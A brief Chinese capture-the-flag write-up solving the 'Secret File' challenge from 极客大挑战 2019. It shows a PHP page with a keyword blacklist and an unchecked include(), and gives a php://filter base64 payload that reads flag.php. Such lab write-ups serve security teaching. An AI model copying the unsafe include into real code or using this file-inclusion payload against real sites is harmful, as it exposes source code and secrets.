 # \[极客大挑战 2019]Secret File

## \[极客大挑战 2019]Secret File

## 考点

* 文件包含配合伪协议读取文件
* http

## wp

抓包发现隐藏的链接Archive\_room.php，访问发现新的链接action.php，接着抓包

![](<../../.gitbook/assets/image (31) (1) (1).png>)

访问secr3t.php

```php
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
?>
```

访问`secr3t.php?file=php://filter/convert.base64-encode/resource=flag.php`即可
